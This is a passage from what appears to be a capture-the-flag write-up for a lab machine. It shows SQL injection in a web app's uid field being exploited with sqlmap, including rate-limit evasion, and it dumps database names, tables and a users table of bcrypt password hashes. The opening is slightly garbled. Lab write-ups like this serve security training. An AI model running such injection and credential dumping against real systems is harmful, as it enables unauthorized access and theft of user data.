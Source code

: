 DOMAIN=intra... Hmm. 

The site was rather basic once access was gained. Some form of database holding messages sent to the particular logged in user.


&nbsp;&nbsp;<center><img src="main_page.jpg" width="600"></center>&nbsp;&nbsp; 


Quick enumeration of the page revealed an injection point within the uid field. SQLMap time! (mostly snipped out). A delay was added as through the initial enumeration phase, the server appeared to blacklist IPs when it was being hammered a bit too hard.

```
root@pwnbox:~# sqlmap -p o -r rc_mainpage --delay=0.5 --dbs
<snip>
[20:38:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[20:38:20] [INFO] fetching database names
[20:38:23] [INFO] used SQL query returns 2 entries
[20:38:33] [INFO] retrieved: information_schema
[20:38:50] [INFO] retrieved: redcross


root@pwnbox:~# sqlmap -p o -r rc_mainpage --delay=0.5 --tables -D redcross
<snip>
[20:41:10] [INFO] fetching tables for database: 'redcross'
[20:41:11] [INFO] used SQL query returns 3 entries
[20:41:12] [INFO] retrieved: messages
[20:41:12] [INFO] retrieved: requests
[20:41:13] [INFO] retrieved: users


root@pwnbox:~# sqlmap -p o -r rc_mainpage --delay=0.5 -D redcross -T users --dump
<snip>
Database: redcross
Table: users
[5 entries]
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail                         | username | password                                                     |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
| 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
+----+------+------------------------------+----------+--------------------------------------------------------------+

```
